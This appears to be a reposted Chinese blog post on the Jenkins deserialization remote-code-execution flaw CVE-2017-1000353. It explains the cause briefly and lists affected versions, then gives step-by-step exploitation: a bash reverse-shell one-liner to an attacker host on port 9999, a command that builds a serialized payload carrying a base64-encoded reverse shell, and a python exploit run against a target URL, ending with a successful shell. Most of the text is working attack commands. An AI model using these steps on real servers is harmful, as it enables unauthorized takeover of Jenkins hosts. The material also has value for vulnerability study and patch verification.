



# 【jenkins】CVE-2017-1000353 - 任尔东西南北风 - 博客园

> 原文：[`www.cnblogs.com/lyh1/p/17502318.html`](https://www.cnblogs.com/lyh1/p/17502318.html)

0x01 漏洞原理

enkins 未授权远程代码执行漏洞, 允许攻击者将序列化的 Java SignedObject 对象传输给 Jenkins CLI 处理，反序列化 ObjectInputStream 作为 Command 对象，这将绕过基于黑名单的保护机制, 导致代码执行。

0x02 影响版本

 所有 Jenkins 主版本均受到影响(包括<=2.56 版本)
所有 Jenkins LTS 均受到影响( 包括<=2.46.1 版本)0x03 漏洞复现工具：https://github.com/vulhub/CVE-2017-1000353 反弹 shellhttps://forum.ywhack.com/reverse-shell/

```
/bin/bash -i >& /dev/tcp/1.xxxx/9999 0>&1
```

编码

https://r0yanx.com/tools/java_exec_encode



 生成二进制文件 jenkins_poc.ser

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIdddddddddC9kZXYvdGNwLzEuMTE3LjE1OS4xOTAvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

利用 payload

```
python2 exploit.py http://1.xxxxx:8080/ jenkins_poc.ser
```



 反弹 shell 成功

